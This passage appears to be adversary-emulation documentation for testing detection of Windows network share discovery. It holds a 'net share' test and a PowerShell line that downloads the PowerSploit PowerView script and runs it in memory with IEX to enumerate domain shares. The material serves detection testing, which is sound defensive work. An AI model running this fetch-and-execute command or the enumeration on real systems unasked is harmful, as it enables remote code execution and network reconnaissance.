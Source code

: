 



<br/>
<br/>

## Atomic Test #6 - View available share drives
View information about all of the resources that are shared on the local computer Upon execution, available share drives will be displayed in the powershell session

**Supported Platforms:** Windows


**auto_generated_guid:** ab39a04f-0c93-4540-9ff2-83f862c385ae






#### Attack Commands: Run with `command_prompt`! 


```cmd
net share
```






<br/>
<br/>

## Atomic Test #7 - Share Discovery with PowerView
Enumerate Domain Shares the current user has access. Upon execution, progress info about each share being scanned will be displayed.

**Supported Platforms:** Windows


**auto_generated_guid:** b1636f0a-ba82-435c-b699-0d78794d8bfd






#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1' -UseBasicParsing); Find-DomainShare -CheckShareAccess -Verbose
```




#### Dependencies:  Run with `powershell`!
##### Description: Endpoint must be joined to domain
##### Check Prereq Commands:
```powershell
if ((Get-WmiObject -Class Win32_ComputerSystem).PartofDomain) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
"Join system to domain"
```
